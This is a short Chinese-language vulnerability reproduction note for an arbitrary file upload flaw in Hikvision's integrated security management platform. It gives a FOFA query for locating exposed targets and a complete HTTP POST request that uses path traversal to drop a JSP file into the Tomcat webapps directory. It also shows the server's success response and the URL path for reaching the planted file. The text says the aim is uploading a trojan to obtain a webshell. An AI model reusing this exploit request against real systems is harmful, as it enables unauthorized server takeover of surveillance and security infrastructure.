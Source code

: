 1.漏洞描述：<font style="color:rgb(53, 53, 53);">HiKVISION综合安防管理平台 /center/api/files;.js 接口存在任意文件上传漏洞，攻击者可以通过漏洞上传木马到服务器中，获得webshell。</font>

<font style="color:rgb(53, 53, 53);"></font>

<font style="color:rgb(53, 53, 53);">  
</font><font style="color:rgb(53, 53, 53);">2.fofa语句："</font><font style="color:rgb(221, 17, 68);">HIKVISION-综合安防管理平台"</font>





3.漏洞复现

    （1）发送数据包

```plain
POST /center/api/files;.js HTTP/1.1
Host: xx.xx.xx.xx:1443
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxxmdzwoe
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36

------WebKitFormBoundaryxxmdzwoe
Content-Disposition: form-data; name="upload";filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/ukgmfyufsi.jsp"
Content-Type:image/jpeg

<%out.println("pboyjnnrfipmplsukdeczudsefxmywex");%>
------WebKitFormBoundaryxxmdzwoe--
```

      （2）查看响应包      

```python
HTTP/1.1 200 
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json;charset=UTF-8
Content-Length: 337
Set-Cookie: JSESSIONID=73715E162ED9A0675D10A1644EEB3F12; Path=/center; HttpOnly;secure
Content-Language: zh_CN
Expires: 0
Content-Disposition: inline;filename=f.txt
Date: Mon, 11 Sep 2023 02:26:26 GMT



{"code":"0","data":{"filename":"../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/ukgmfyufsi.jsp","link":"http://192.168.240.1:8001/download1/center_faq/resource/5dab28a3-485a-4928-b358-0c73d3f2c40a/../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/ukgmfyufsi.jsp","id":"5dab28a3-485a-4928-b358-0c73d3f2c40a"},"msg":""}
```

        （3）拼接路径查看上传的文件书否存在  在网站后拼接_<font style="color:rgb(175, 175, 175);">/clusterMgr/ukgmfyufsi.jsp;.js</font>_

            ![](https://cdn.nlark.com/yuque/0/2024/png/48235409/1734748869567-66b65958-048e-431f-94b7-dfe8efe27b9d.png)

  
<font style="color:rgba(255, 255, 255, 0.8);">http</font>  
<font style="color:rgba(255, 255, 255, 0.8);">https</font>

